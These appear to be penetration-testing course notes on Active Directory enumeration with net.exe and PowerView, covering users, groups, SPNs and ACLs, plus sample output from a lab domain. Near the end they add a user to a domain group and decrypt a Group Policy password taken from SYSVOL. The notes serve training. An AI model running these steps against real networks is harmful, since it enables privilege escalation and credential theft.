




# Manual Enumeration

## gathering user information

```bash
net user /domain
```

## Gather Domain information based on discovered users
```bash
net user jeffadmin /domain
```

## Gather Domain information in general
```bash
# Differentiate Default and Custom domains
net group /domain
```

## Enumerate Custom domain
```bash
net group "Sales Department" /domain
```

# AD enumeration with PowerView

```bash
powershell -ep bypass

Import-Module .\PowerView.ps1

# Basic Information about domain
Get-NetDomain

# List all Users
Get-NetUser

# List all groups
Get-NetGroup | select cn

# Enumerate users of a specific group from the above command
Get-NetGroup "Sales Department" | select member
```

## Enumerating operating systems

```bash
Get-NetComputer

# Or Narrow it down further
Get-NetComputer | select operatingsystem,dnshostname

# Get a list of local computers with the same information
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
```

## Getting an overview - permissions and logged on users

```bash
# Look for administrative access of local computers with current user
Find-LocalAdminAccess

# Results
client74.corp.com
```

## Get SPNs

```bash
Get-NetUser -SPN | select samaccountname,serviceprincipalname

# Results
samaccountname serviceprincipalname
-------------- --------------------
krbtgt         kadmin/changepw
iis_service    {HTTP/web04.corp.com, HTTP/web04, HTTP/web04.corp.com:80}
```

## Enumerating object permissions
```bash
GenericAll: Full permissions on object
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group
```

```bash
# Get-ObjectAcl to enumerate ACEs
Get-ObjectAcl -Identity stephanie

# Results
...
ObjectDN               : CN=stephanie,CN=Users,DC=corp,DC=com
ObjectSID              : S-1-5-21-1987370270-658905905-1781884369-1104
ActiveDirectoryRights  : ReadProperty
ObjectAceFlags         : ObjectAceTypePresent
ObjectAceType          : 4c164200-20c0-11d0-a768-00aa006e0529
InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
BinaryLength           : 56
AceQualifier           : AccessAllowed
IsCallback             : False
OpaqueLength           : 0
AccessMask             : 16
SecurityIdentifier     : S-1-5-21-1987370270-658905905-1781884369-553
AceType                : AccessAllowedObject
AceFlags               : None
IsInherited            : False
InheritanceFlags       : None
PropagationFlags       : None
AuditFlags             : None
...
Listing 58 - Running Get-ObjectAcl specifying our user

The amount of output may seem overwhelming since we enumerated every ACE that grants or denies some sort of permission to stephanie. While there are many properties that seem potentially useful, we are primarily interested in those highlighted in the truncated output of Listing 58.

The output lists two Security Identifiers (SID), unique values that represent an object in AD. The first (located in the highlighted ObjectSID property) contains the value "S-1-5-21-1987370270-658905905-1781884369-1104", which is rather difficult to read. In order to make sense of the SID, we can use PowerView's Convert-SidToName command to convert it to an actual domain object name:

PS C:\Tools> Convert-SidToName S-1-5-21-1987370270-658905905-1781884369

```
```bash
# Convert that ObjectSID to a name with Convert-SidToName
# Copy ObjectSID from the above command
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104

# Results
CORP\stephanie

# It is worth noting, that it is the SecurityIdentifier field that has privs on an object, so lets enumerate that value.
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-553

# Results
CORP\RAS and IAS Servers
```

## Add user to a group with net.exe

```bash
net group "Management Department" stephanie /add /domain

#Results
The request will be processed at a domain controller for domain corp.com.

The command completed successfully.

# Verify with Get-NetGroup
Get-NetGroup "Management Department" | select member

# Results
member
------
{CN=jen,CN=Users,DC=corp,DC=com, CN=stephanie,CN=Users,DC=corp,DC=com}
```

## Enumerating domain shares
```bash
Find-DomainShare
```


```bash
# Enumerate a specific share on a specific domain
ls \\DOMAIN\SHARE\COMPUTERNAME\

# Example
ls \\dc1.corp.com\sysvol\corp.com\

```


```bash
# Go deeper
ls \\dc1.corp.com\sysvol\corp.com\Policies\

#Open a file
cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml

# Decrypt password
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```



